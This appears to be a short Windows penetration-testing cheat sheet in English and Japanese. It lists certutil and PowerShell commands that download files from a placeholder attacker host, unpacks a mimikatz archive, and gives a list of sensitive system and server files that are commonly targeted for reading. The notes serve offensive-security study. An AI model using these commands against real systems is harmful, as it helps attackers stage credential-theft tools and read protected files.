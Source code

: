 ### Web
- Download
```bash
powershell -command Invoke-WebRequest -Uri http://<LHOST>:<LPORT>/<FILE> -Outfile C:\\temp\\<FILE>
```
```bash
iwr -uri http://lhost/file -Outfile file
```
```bash
certutil -urlcache -split -f "http://<LHOST>/<FILE>" <FILE>
```
```bash
copy \\kali\share\file .
```

### ファイル操作
- 解凍
```bash
Expand-Archive -Path .\mimikatz.zip
```

## PowerCLI

# Event Viewer

## Application

## Security
- ユーザ追加（4720）
- プロセス作成（4688）

## System
- シャットダウン開始時刻 (ID 1074)

# その他

## 証明書のインポート
- ［スタート］→［ファイル名を指定して実行］をクリックし、名前の枠に「certmgr.msc」と入力して［OK］をクリックします。証明書管理画面が表示されますので、[信頼されたルート証明機関]の証明書フォルダを右クリックして、「すべてのタスク」から「インポート」を選択します

# 重要ファイル一覧

- `C:/Users/Administrator/NTUser.dat`
- `C:/Documents and Settings/Administrator/NTUser.dat`
- `C:/apache/logs/access.log`
- `C:/apache/logs/error.log`
- `C:/apache/php/php.ini`
- `C:/boot.ini`
- `C:/inetpub/wwwroot/global.asa`
- `C:/MySQL/data/hostname.err`
- `C:/MySQL/data/mysql.err`
- `C:/MySQL/data/mysql.log`
- `C:/MySQL/my.cnf`
- `C:/MySQL/my.ini`
- `C:/php4/php.ini`
- `C:/php5/php.ini`
- `C:/php/php.ini`
- `C:/Program Files/Apache Group/Apache2/conf/httpd.conf`